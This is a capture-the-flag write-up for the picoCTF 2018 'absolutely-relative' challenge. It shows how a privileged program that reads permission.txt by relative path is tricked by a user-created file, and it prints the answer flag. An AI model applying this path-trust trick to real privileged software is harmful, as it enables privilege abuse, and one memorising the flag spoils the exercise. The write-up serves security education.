 # LEVEL GOAL

In a filesystem, everything is relative ¯\_(ツ)_/¯. Can you find a way to get a flag from this program [1] ? You can find it in /problems/absolutely-relative_4_bef88c36784b44d2585bb4d2dbe074bd on the shell server. Source [2] .

# HINTS

(1) Do you have to run the program in the same directory? (⊙.☉)7 (2) Ever used a text editor? Check out the program 'nano'

# SOLUTION

Let's look at `absolutely_relative.c` file:

```
nikel@pico-2018-shell-1:/problems/absolutely-relative_4_bef88c36784b44d2585bb4d2dbe074bd$ cat absolutely-relati
ve.c
...
    file = fopen("/problems/absolutely-relative_4_bef88c36784b44d2585bb4d2dbe074bd/flag.txt" , "r");
    if (file) {
        while (fscanf(file, "%s", flag)!=EOF)
        fclose(file);
    }
...
    file = fopen( "./permission.txt" , "r");
...

    if (!strncmp(permission, yes, yes_len)) {                                                                  
        printf("You have the write permissions.\n%s\n", flag);                                                 
    } else {                                                                                                   
        printf("You do not have sufficient permissions to view the flag.\n");                                  
    }                                                                                                          
```

So, `flag.txt` is accessed as an absolute path but `permission.txt` is a relative path. All we need to do is run from another directory where we can create a local `permission.txt` file having `yes` as its contents.

```
nikel@pico-2018-shell-1:~$ echo "yes" > permission.txt

nikel@pico-2018-shell-1:~$ ls
permission.txt

nikel@pico-2018-shell-1:~$ /problems/absolutely-relative_4_bef88c36784b44d2585bb4d2dbe074bd/absolutely-relative
You have the write permissions.
picoCTF{3v3r1ng_1$_r3l3t1v3_3b69633f}
```

It is very important to understand that you must not copy the executable to another location. This causes the owner and group of that executable to change from the original user:group to your user:group. Even if `You have the write permissions`, you won't be able to read `flag.txt` because it belongs to a different user:group.

`-r--r-----   1 hacksports absolutely-relative_4    37 Sep 28 07:36 flag.txt`

# FLAG

picoCTF{3v3r1ng_1$_r3l3t1v3_3b69633f}
